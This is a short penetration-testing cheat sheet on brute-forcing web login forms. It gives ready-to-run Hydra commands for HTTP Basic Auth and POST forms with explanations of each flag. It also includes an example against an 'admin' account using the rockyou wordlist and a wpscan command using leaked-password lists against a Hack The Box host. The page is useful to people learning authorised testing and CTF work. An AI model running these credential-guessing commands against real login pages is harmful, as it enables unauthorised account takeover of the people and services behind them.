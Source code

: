 ```yaml
---
description: Usually used to attack a login form
---
```


# Brute Forcing Web Forms

### HTTP Basic Auth&#x20;

Bruteforce HTTP Basic Auth&#x20;

```
hydra -L users.lst -P passwords.txt -f www.site.org http-head /path/of/target/ -V 
```

Flags:

* `-V`: verbose mode
* `-f`: exit after the first login pair is found

### HTTP POST

Bruteforcing HTTP POST form:&#x20;

```
hydra http-form-post "login_path:form_username_name=^USER^&form_password_name=^PASS^:failed_login_text" -l username -P passwords_wordlist.txt -t 10
```

Options:

* `login_path`: The URL of the login form, e.g `/login.php`.
* `form_username_name`: The "name" variable of the username input field of the form.
* `form_password_name`: The "name" variable of the password input field of the form.
* `failed_login_text`: Text which indicates to Hydra that the login failed, for example "Invalid Credentials."
* `username`: The username of the user you want to brute force.

Flags:

* `-t`: The number of threads.
* `-l`: Specifies the username of the user to brute force.
* `-L`: Specifies a wordlist of usernames to brute force.
*

hydra http-form-post "\<login path, e.g /login.php>:\<form username input, e.g username>=^USER^&=^PASS^:\<The failed login text, e.g Wrong login>" -l -P \<passwordlist, e.g 500-worst-passwords.txt> -t 10

Example: hydra 192.168.101.10 http-form-post "/index.php?module=Users\&action=Login:\_\_vtrftk=sid%3A9db267cda06a381fdff01c51a36d2362551c82c2%2C1527426288\&username=^USER^\&password=^PASS^:error=1(it redirected to a page which had ?error=1)" -P /usr/share/wordlists/rockyou.txt -t 64 -l admin

https://security.stackexchange.com/questions/97414/kali-linux-hydra-http-post-brute-force?utm\_medium=organic\&utm\_source=google\_rich\_qa\&utm\_campaign=google\_rich\_qa

Wordpress brute forcing: wpscan --url https://brainfuck.htb --passwords /home/x90slide/resources/SecLists/Passwords/Leaked-Databases/rockyou.txt --usernames admin,orestis --disable-tls-checks
